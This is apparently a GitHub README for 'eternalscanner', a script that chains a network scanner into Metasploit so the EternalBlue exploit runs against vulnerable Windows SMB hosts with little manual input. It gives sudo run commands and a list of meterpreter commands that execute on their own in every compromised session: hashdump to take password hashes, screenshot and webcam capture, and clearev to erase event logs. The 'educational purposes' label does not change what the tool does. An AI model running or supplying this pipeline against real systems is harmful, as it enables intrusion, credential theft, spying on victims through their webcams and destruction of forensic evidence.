 [![forthebadge](https://forthebadge.com/images/badges/built-with-love.svg)](https://forthebadge.com)

## Table of content
- [About](#about) 
- [Requirements](#requirements)
- [Usage](#usage)
- [License](#license)
- [Contact Me](#contact-me)
- [Donate Me](#donate-me)

## About
The **eternalscanner** repo is made for educational purposes only. It uses `eternal_scanner` tool from [*Eternal_Scanner*](https://github.com/peterpt/eternal_scanner) repo and parses the output from it to `Metasploit` to make the eternalblue exploit somehow *autonomously*.

## Requirements
- The **SUDO** power
- Requirements for [*Eternal_Scanner*](https://github.com/peterpt/eternal_scanner) Tool 
    - netcat
    - masscan
    - metasploit-framework
    - wget (To Update Eternal Scanner Directly from github)
    - pip (for alternative install of python modules)
    - python-crypto (Dependency for Eternal Romance check)
    - python-impacket (Dependency for Eternal Romance check)
    - python-pyasn1-modules (Dependency for Eternal Romance check)

## Usage
[![forthebadge](https://forthebadge.com/images/badges/oooo-kill-em.svg)](https://forthebadge.com)
- $ `git clone git@github.com:nsa/eternalblue-scanner.git && cd eternalblue-scanner`
- $ `chmod +x eternalbash`
- $ `sudo bash eternalbash`

If any sessions were opened this scripts automatically runs the following **meterpreter** commands from the *`assets/nsa.rc`* file. If you don't want to use following commands, you can just simply change the commands from that **`nsa.rc`** file.

```
hashdump
screenshot
webcan_snap -v false
clearev
background
```


## License
```
MIT License

Copyright (c) 2018 Mustafa Çalap

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.
```

### Contact Me
If you have any questions about this repo, you may create an issue or just hit me that questions on twitter. <br>
Author: **Mustafa ÇALAP** <br>
Website: [**calap.co**](https://calap.co) <br>
Twitter: [**mustafacalap**](https://twitter.com/mustafacalap)

### Donate Me
[![forthebadge](https://forthebadge.com/images/badges/fuck-it-ship-it.svg)](https://forthebadge.com)
- Bitcoin : 1MUSTkECBR1yr6Jbd5QjT9EXJXGgDaZieJ <br />
<img src="https://rlv.zcache.com/bitcoin_accepted_here_sticker-r148616b487084a369d4c15bf39055043_v9i40_8byvr_324.jpg" width="200px" height="200px">[![image](https://blog.calap.co/wp-content/uploads/2017/11/1MUST.png)](https://blog.calap.co/destek-olun)

